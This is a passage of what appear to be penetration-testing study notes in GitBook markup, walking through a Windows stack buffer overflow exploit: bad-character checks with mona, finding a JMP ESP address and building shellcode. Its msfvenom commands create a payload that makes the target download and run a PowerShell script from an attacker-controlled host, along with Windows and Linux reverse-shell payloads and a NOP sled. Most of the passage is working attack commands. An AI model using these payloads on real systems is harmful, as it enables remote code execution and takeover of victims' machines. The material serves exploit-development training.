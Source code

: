 ```bash
retn = b"\x5e\x51\x9a\x5e"

# ANOTHER METHOD TO FIND BADCHARS
# Crash the program > ESP > Follow in dump > Note the badchars next to "21". Maybe "21" means nothing but for sure the badchars stand out there.

# We execute the exploit again and check the badchars until we see unmodified:
!mona compare -f $.bin_file_path -a $ESP # we note the badchar, ESP w/o 0x
```
{% endcode %}

{% hint style="info" %}
Be careful with consecutive badchars, try to not consider the second one of those consecutive.
{% endhint %}

![](<../.gitbook/assets/image (89).png>)

{% code overflow="wrap" %}
```bash
!mona compare -f "C:\Users\student\AppData\Local\VirtualStore\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin" -a $ESP
!mona bytearray -cpb "\x00\x0a\x1a\x2f\x80\x95\xa7"
```
{% endcode %}
{% endtab %}

{% tab title="JMP ESP" %}
{% code overflow="wrap" %}
```bash
# FINDING A JUMP POINT
!mona jmp -r esp -cpb "\xBADCHARS"
# Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). 
from struct import pack 
pack("<L", 0x$ADDRESS)

# GENERATE PAYLOAD (IF TRYING ON WIN DEB MACHINE, CHECK REAL LOCAL IP W/O VPN)
# Use this as general approach, always exclude at least these badchars (at least null byte for sure) + the ones found manually
msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.Webclient).downloadString('http://$IP:8000/Inv-Pow.ps1')" LHOST=192.168.0.0 LPORT=80 EXITFUNC=thread -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f c --smallest
# Another way without PS
msfvenom -p windows/shell_reverse_tcp
# Linux payload (IN CASE OF WINE INSTANCE IT MIGHT BE THE ONLY OPTION)
msfvenom -p linux/x86/shell_reverse_tcp ... #x86 or x64 depending on arch
msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.Webclient).downloadString('http://10.0.2.5/Inv-Pow.ps1')" LHOST= LPORT= EXITFUNC=thread -b "\x.." -f c --smallest
# Copy the generated C code into your exploit.py script payload variable

# PREPEND NOPS
# Since an encoder was likely used to generate the payload, you will need space in memory for the payload to unpack itself. 16 or more "No Operation" (\x90) bytes:
padding = "\x90" * 16
```
{% endcode %}
{% endtab %}
